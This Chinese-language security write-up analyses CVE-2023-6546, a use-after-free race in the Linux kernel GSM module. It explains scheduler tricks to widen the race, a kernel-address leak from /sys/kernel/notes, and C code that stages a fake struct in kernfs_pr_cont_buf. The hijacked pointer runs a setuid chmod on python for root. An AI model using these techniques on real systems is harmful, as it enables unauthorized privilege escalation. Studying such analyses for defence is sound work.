



# CVE-2023-6546 Linux 内核 GSM 模块条件竞争漏洞分析与利用 - 先知社区

CVE-2023-6546 Linux 内核 GSM 模块条件竞争漏洞分析与利用

- - -

## 漏洞分析

用户态对 tty fd 发起 ioctl 系统调用时会进入 gsmld\_ioctl --> gsmld\_config

```bash
static int gsmld_config(struct tty_struct *tty, struct gsm_mux *gsm,
                            struct gsm_config *c)
{
    // [0] 根据 c 设置 need_close 和 need_restart

    if (need_close || need_restart) {
        int ret;

        ret = gsm_disconnect(gsm); // [1] 进入 gsm_disconnect

        if (ret)
            return ret;
    }
    if (need_restart)
        gsm_cleanup_mux(gsm);

    if (need_restart)
        gsm_activate_mux(gsm);

    return 0;
}
```

通过控制 c 的值可以让 need\_restart = 1，然后会进入 gsm\_disconnect 处理

```bash
static int gsm_disconnect(struct gsm_mux *gsm)
{
    struct gsm_dlci *dlci = gsm->dlci[0];
    struct gsm_control *gc;

    if (!dlci)
        return 0;

    /* In theory disconnecting DLCI 0 is sufficient but for some
       modems this is apparently not the case. */
    gc = gsm_control_send(gsm, CMD_CLD, NULL, 0);
    if (gc)
        gsm_control_wait(gsm, gc);

    del_timer_sync(&gsm->t2_timer);
    /* Now we are sure T2 has stopped */

    gsm_dlci_begin_close(dlci);
    wait_event_interruptible(gsm->event,
                dlci->state == DLCI_CLOSED);

    if (signal_pending(current))
        return -EINTR;

    return 0;
}
```

函数的大概逻辑如下：

1.  假设进入函数时有两个 fd 分别为 master 和 slave，即 master\_fd 和 slave\_fd
2.  gsm\_control\_send 向 master\_fd 发送请求
3.  然后 gsm\_control\_wait 等待 master 的响应
4.  然后会通过 wait\_event\_interruptible 等待 dlci 的状态变成 DLCI\_CLOSED

执行 gsm\_disconnect 后会进入 gsm\_cleanup\_mux --> gsm\_dlci\_release 会把 gsm->dlci\[0\] 释放掉。

如果两个线程同时进入了 gsm\_disconnect 就会导致 UAF

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122172721900-728079279.png)​

在线程 B 还在使用 dlci 的中间线程 A 释放 dlci 就会导致 UAF

‍

## 漏洞利用

通过漏洞我们可以实现 dlci 对象的 UAF，我们需要在 线程 A 释放 dlci 后通过堆喷占位（add\_key 方式），这就需要提升 wait\_event\_interruptible 和 dlci->gsm->output 之间的时间窗，这里采取的方式是利用 CPU 的调度特性，主要思路如下：

1.  新增一个线程 C 和 线程 B 绑定到同一个 CPU，假设为 0
2.  设置线程 B 的调度优先级为 IDLE，线程 C 调度优先级为默认的 NORMAL
3.  在线程 B 卡在 gsm\_control\_wait 等待 master 的响应时，通知线程 C 进入死循环
4.  由于 线程 C 的调度优先级大于 线程 B 的，所以线程 B 会长时间拿不到 CPU，从而提升了时间窗。

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122172722848-1342607448.png)​

‍

为了实现劫持 dlci->gsm->output 有两个问题需要解决：

1.  需要获取内核镜像地址来计算劫持的函数指针的地址
2.  需要在内核中的某个地址构造 gsm 结构体。

‍

第一个问题，在 ubuntu 的 /sys/kernel/notes 文件地权限用户可读，里面会有一些内核镜像地址可以用于计算内核镜像基地址

```bash
ubuntu@ubuntu-2204:~$ xxd /sys/kernel/notes
00000000: 0400 0000 0600 0000 0600 0000 5865 6e00  ............Xen.
00000010: 6c69 6e75 7800 0000 0400 0000 0400 0000  linux...........
00000020: 0700 0000 5865 6e00 322e 3600 0400 0000  ....Xen.2.6.....
00000030: 0800 0000 0500 0000 5865 6e00 7865 6e2d  ........Xen.xen-
00000040: 332e 3000 0400 0000 0800 0000 0300 0000  3.0.............
00000050: 5865 6e00 0000 0080 ffff ffff 0400 0000  Xen.............
00000060: 0800 0000 0f00 0000 5865 6e00 0000 0000  ........Xen.....
00000070: 8000 0000 0400 0000 0800 0000 0100 0000  ................
00000080: 5865 6e00 c011 e682 ffff ffff 0400 0000  Xen.............
00000090: 0800 0000 0200 0000 5865 6e00 00a0 e381  ........Xen.....
000000a0: ffff ffff 0400 0000 2900 0000 0a00 0000  ........).......
000000b0: 5865 6e00 2177 7269 7461 626c 655f 7061  Xen.!writable_pa
000000c0: 6765 5f74 6162 6c65 737c 7061 655f 7067  ge_tables|pae_pg
000000d0: 6469 725f 6162 6f76 655f 3467 6200 0000  dir_above_4gb...
000000e0: 0400 0000 0400 0000 1100 0000 5865 6e00  ............Xen.
000000f0: 0188 0000 0400 0000 0400 0000 0900 0000  ................
00000100: 5865 6e00 7965 7300 0400 0000 0800 0000  Xen.yes.........
00000110: 0800 0000 5865 6e00 6765 6e65 7269 6300  ....Xen.generic.
00000120: 0400 0000 1000 0000 0d00 0000 5865 6e00  ............Xen.
00000130: 0100 0000 0000 0000 0100 0000 0000 0000  ................
00000140: 0400 0000 0400 0000 0e00 0000 5865 6e00  ............Xen.
00000150: 0100 0000 0400 0000 0400 0000 1000 0000  ................
00000160: 5865 6e00 0100 0000 0400 0000 0800 0000  Xen.............
00000170: 0c00 0000 5865 6e00 0000 0000 0080 ffff  ....Xen.........
00000180: 0400 0000 0800 0000 0400 0000 5865 6e00  ............Xen.
00000190: 0000 0000 0000 0000 0400 0000 1400 0000  ................
000001a0: 0300 0000 474e 5500 f340 a850 cc47 a7e1  ....GNU..@.P.G..
000001b0: f80b 4749 4122 28f1 fddf 3c89 0600 0000  ..GIA"(...<.....
000001c0: 0400 0000 0101 0000 4c69 6e75 7800 0000  ........Linux...
000001d0: 0000 0000 0600 0000 0100 0000 0001 0000  ................
000001e0: 4c69 6e75 7800 0000 0000 0000 0400 0000  Linux...........
000001f0: 0800 0000 1200 0000 5865 6e00 f009 0001  ........Xen.....
00000200: 0000 0000                                ....
ubuntu@ubuntu-2204:~$
```

第二个问题的解决是利用 cgroup filter 在 kernfs\_pr\_cont\_buf 里面放置数据，kernfs\_pr\_cont\_buf 的地址可以通过内核镜像的基地址计算，布置数据的代码如下：

```bash
static void prepare_smap_bypass(char *payload)
{
    pid_t pid;
    int fd;
    char buf[128];
    int a[2];
    int b[2];
    char c;
    char path[128];

    if(pipe(a) < 0) die("pipe");
    if(pipe(b) < 0) die("pipe");

    pid = fork();

    if(pid < 0) die("fork");

    if(pid == 0)
    {
        unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWNET);

        write(a[1], &c, 1);
        read(b[0], &c, 1);

        system("mount -t tmpfs tmpfs /run");

        fd = open("/dev/null", O_RDONLY);
        if(fd < 0) die("open");

        if(dup2(fd, 2) < 0) die("dup2");

        execl("/sbin/iptables", "iptables", "-A", "OUTPUT", "-m", "cgroup", "--path", payload, "-j", "LOG", NULL);
        exit(1);
    }

    read(a[0], &c, 1);

    snprintf(path, sizeof path, "/proc/%u/setgroups", pid);

    fd = open(path, O_RDWR);
    if(!fd) die("open");

    strcpy(buf, "deny");

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/uid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getuid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/gid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getgid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    write(b[1], &c, 1);

    close(a[0]);
    close(a[1]);
    close(b[0]);
    close(b[1]);

    wait(NULL);
}
```

布局后查看 kernfs\_pr\_cont\_buf 的值

```bash
(gdb) x/400xg kernfs_pr_cont_buf
0xffffffff8336eac0 <kernfs_pr_cont_buf>:        0x0000000000000000      0x0000000000000000
0xffffffff8336ead0 <kernfs_pr_cont_buf+16>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eae0 <kernfs_pr_cont_buf+32>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eaf0 <kernfs_pr_cont_buf+48>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb00 <kernfs_pr_cont_buf+64>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb10 <kernfs_pr_cont_buf+80>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb20 <kernfs_pr_cont_buf+96>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb30 <kernfs_pr_cont_buf+112>:    0x642f630062006100      0x4343434343434343
0xffffffff8336eb40 <kernfs_pr_cont_buf+128>:    0x4343434343434343      0x4343434343434343
0xffffffff8336eb50 <kernfs_pr_cont_buf+144>:    0xffffffff81ffaee0      0x0000000000000000
0xffffffff8336eb60 <kernfs_pr_cont_buf+160>:    0x0000000000000000      0x0000000000000000
0xffffffff8336eb70 <kernfs_pr_cont_buf+176>:    0x6200610000000000      0x42424242642f6300
0xffffffff8336eb80 <kernfs_pr_cont_buf+192>:    0x4242424242424242      0xffffffff81ee8080
0xffffffff8336eb90 <kernfs_pr_cont_buf+208>:    0x4242424242424242      0x4242424242424242
0xffffffff8336eba0 <kernfs_pr_cont_buf+224>:    0xffffffff8391c588      0x6e69622f7273752f
0xffffffff8336ebb0 <kernfs_pr_cont_buf+240>:    0x7520646f6d68632f      0x2f7273752f20732b
0xffffffff8336ebc0 <kernfs_pr_cont_buf+256>:    0x687479702f6e6962      0x0000000000336e6f
0xffffffff8336ebd0 <kernfs_pr_cont_buf+272>:    0x0000000000000000      0x0000000000000000
```

然后劫持 dlci->gsm 到 kernfs\_pr\_cont\_buf，控制 dlci->gsm->output(gsm, ...) 函数指针调用为 run\_cmd("/bin/chmod u+s /usr/bin/python") 实现提权

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122172723492-1277160919.png)​

## 总结

-   系统的 /sys /proc 等目录下面经常出现地址泄露的问题，本文的这个技巧也可以在其他漏洞利用中使用。
-   通过 kernfs\_pr\_cont\_buf 布局数据的思路是个通用思路，在劫持对象指针时用处挺大的，可以少泄露一次堆地址。
-   利用调度优先级扩大时间窗是比较常用的思路。

‍

‍

## 参考资料

-   [https://github.com/Nassim-Asrir/ZDI-24-020/](https://github.com/Nassim-Asrir/ZDI-24-020/)

‍

‍
